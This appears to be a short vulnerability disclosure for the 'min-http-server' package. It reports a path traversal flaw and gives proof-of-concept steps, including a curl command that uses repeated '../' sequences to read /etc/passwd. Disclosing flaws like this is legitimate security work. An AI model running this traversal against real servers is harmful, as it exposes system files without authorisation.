 # Description

The `min-http-server` package is vulnerable against `path traversal`, which leads to `information disclosure` and `sensitive file leakage`.
The package is vulnerable against this attack through the `double dots` technique.

# PoC

1. Download `min-http-server`
2. `./min-http-server`
3. Run 

```bash
curl --path-as-is 'http://localhost:1579/../../../../../../../etc/passwd'
```
4. The content of `/etc/passwd` is shown :smile:
